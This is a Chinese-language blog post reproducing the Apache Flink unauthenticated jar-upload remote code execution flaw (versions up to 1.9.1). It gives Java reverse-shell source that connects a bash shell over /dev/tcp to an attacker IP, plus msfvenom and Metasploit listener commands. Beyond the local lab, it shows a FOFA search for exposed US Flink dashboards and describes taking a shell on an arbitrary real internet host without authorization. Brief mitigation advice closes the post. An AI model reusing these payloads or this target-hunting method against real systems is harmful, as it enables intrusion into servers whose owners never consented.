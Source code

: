 ```yaml
---
title: "Apache Flink任意Jar包上传导致远程代码执行"
date: 2019-11-13T10::57+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

看到公众号发了预警,所以就去复现了下

<!--more-->

# 漏洞描述:

2019年11月11号，安全工程师Henry Chen披露了一个Apache Flink未授权上传jar包导致远程代码执行的漏洞。由于Apache Flink Dashboard 默认无需认证即可访问,通过上传恶意jar包并触发恶意代码执行,从而获取shell.

# 影响范围
<= 1.9.1(最新版本)

# 环境搭建:
(1)  提前安装好java(需要java8以上)

![图片](https://ae01.alicdn.com/kf/U67e5dc74affc41079fc778934023c36fO.jpg)

(2)  下载flink-1.9.1

下载地址:[https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz](https://www.apache.org/dyn/closer.lua/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz)

(3)  解压下载的压缩包:

```
tar -zxf flink-1.9.1-bin-scala_2.11.tgz
```
(4)  进去到解压后的目录中,来到其bin目录下:

![图片](https://ae01.alicdn.com/kf/U8b11b37eb6234fea8f229c4c0625f5c68.jpg)

(5)   启动flink:
```
./start-cluster.sh
```
(6)  浏览器访问验证(默认端口为8081):

[http://172.26.1.108:8081](http://172.26.1.108:8081)

![图片](https://ae01.alicdn.com/kf/U99519d83a539419fb84879908c4b3c6e2.jpg)

出现上图即搭建成功.

(7)  设置开机自启(这里折腾了好久,一直起不来.直接source /etc/rc.d/rc.local可以启动,但是重启后并不会启动flink,最后在一篇博客中找到了解决方法)

![图片](https://ae01.alicdn.com/kf/U164fe58019ce411f9d20e4ed69d858c2Y.jpg)

开机自启设置参考:[https://www.cnblogs.com/aaronlinux/p/6804531.html](https://www.cnblogs.com/aaronlinux/p/6804531.html)

# 漏洞复现:
## jar包制作步骤:
(1)  参考[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)文中给出的利用java反弹shell

![图片](https://ae01.alicdn.com/kf/U656b35ae92b940418cdd1d7f4649c417T.jpg)

记得修改ip和端口:

![图片](https://ae01.alicdn.com/kf/Udc7af3e8653447ecba8ff75fd58418e3c.jpg)

代码:

```
package shell;
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.1.12/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
(2)  利用eclipse将其导出为一个可执行的jar包:
a. 点击 File-->Export(导出)

![图片](https://ae01.alicdn.com/kf/U71e29ec0fdb9416eb59cd576dcacba1eI.jpg)

b.然后选择java-->Runnable JAR file

![图片](https://ae01.alicdn.com/kf/Ue70247287beb4c4ea36f73fef1c1d1e3O.jpg)

c.然后选择对应的java项目和导出路径以及导出文件名

![图片](https://ae01.alicdn.com/kf/U5573b19b2e4d4fc7a418f6cd5cca80deK.jpg)

这样就生成了一个反弹shell的jar包

## msf生成jar马:
(1)   利用msfvenom来生成一个jar马:
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=172.26.1.156 LPORT=9999 W >text.jar
```
(2)  打开msf的监听模块,并监听9999端口(要与我们jar马设置的端口一致)
```
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 172.26.1.156
set LPORT 9999
exploit
```
(3)  上传我们生成的jar马并提交后(这部分操作参考下面的复现),可以看到我们成功接收到shell:

![图片](https://ae01.alicdn.com/kf/U338594f3162f4cdb969acb78d45fe4bau.jpg)

## 本地复现:
(1)  访问目标:

![图片](https://ae01.alicdn.com/kf/U8c47f70561ed492583d979eb63200165N.jpg)

(2)  点击Submit New job,打开上传jar包的页面:

![图片](https://ae01.alicdn.com/kf/Ubcff626a9ca144ef83ddfad56485e5116.jpg)

(3)  点击Add New选择我们制作好的jar包:

![图片](https://ae01.alicdn.com/kf/Udc26e0c49a1f485b87a0eae0e88488a8d.jpg)

(4)  我们的机器上监听好端口(我们制作的jar包是直接反弹shell的)
(5)  点击我们刚刚上传的jar包:

![图片](https://ae01.alicdn.com/kf/Ub00fe9f70aeb4b65bd3aeaef3974acf01.jpg)

(6)  然后点击Submit即可,可以看到我们已经成功接收到了shell:

![图片](https://ae01.alicdn.com/kf/Uc38aed7456904c5c9148068ebd4020feV.jpg)

## 互联网站点:
fofa关键词:

"apache-flink-dashboard" && country="US"

![图片](https://ae01.alicdn.com/kf/U441dbddb36db4fee953936554ca4560ej.jpg)

(1)   随便找一个目标:

![图片](https://ae01.alicdn.com/kf/U0c7a43609a9642e5ae9318049d67c166v.jpg)

(2)  点击Submit new Job,可以看到其可以允许我们上传jar包

![图片](https://ae01.alicdn.com/kf/Ud39cf6e68bb04b3980551774c63fa583D.jpg)

(3)  利用flink上传jar包的功能将我们的jar包上传:

![图片](https://ae01.alicdn.com/kf/Ud3a911eaea7d4fb8b3ca8026982f6af5t.jpg)

(4)  上传后,我们在我们的vps上监听好端口
(5)  然后回到浏览器,选中我们刚刚上传的jar包,然后点击Submitting提交,可以看到我们的vps已经成功接收到了shell

![图片](https://ae01.alicdn.com/kf/U75e79141cc714411ae0045990b8f1239y.jpg)

# 漏洞修复:
建议设置防火墙策略，仅允许白名单ip访问 apache flink服务，并在Web代理（如apache httpd）中增加对该服务的digest认证。

时刻关注官网,等待新版本或补丁更新

# 参考链接:
[flink](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)[安装](https://ci.apache.org/projects/flink/flink-docs-release-1.9/getting-started/tutorials/local_setup.html)

[https://s.tencent.com/research/bsafe/841.html](https://s.tencent.com/research/bsafe/841.html)

[https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1](https://mp.weixin.qq.com/s?src=11&timestamp=1573607236&ver=1971&signature=roySoRWnz5MgPLuikntTt3rx7rWFdFBOOQfI5rmaOe-d1LWj7NEJxkVBvzfjKtpuihSaRk*EVBoHJ5Roh48qdTm3v2jbU8EWAVAs8i3ylp3OOskx7IUXnKXqDU5tcUfn&new=1)

[https://klionsec.github.io/2016/09/27/revese-shell/#menu](https://klionsec.github.io/2016/09/27/revese-shell/#menu)

